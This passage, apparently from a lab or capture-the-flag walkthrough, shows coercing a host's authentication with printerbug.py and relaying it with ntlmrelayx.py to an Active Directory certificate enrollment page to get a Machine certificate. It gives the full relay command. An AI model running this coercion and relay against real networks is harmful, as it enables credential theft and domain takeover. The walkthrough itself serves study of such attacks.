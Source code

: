 We can call this function remotely with [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) to coerce authentication from `SCRIPTORUIM` to `TABULARIUM`:

![](./assets/img/sincon/a348c46268ddf675c946398b7f0035d5.png)

### Relay to CA

We'll use [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) to relay the authentication to the CA web endpoint, which will request a `Machine` certificate for any authenticating user. 

```
ntlmrelayx.py -t 'http://palace-dc.jess.kingdom/certsrv/certfnsh.asp' -smb2support --adcs --template 'Machine' --no-http-server
```

![](./assets/img/sincon/59e5e32dd8ff6d948f302db91f4c153e.png)

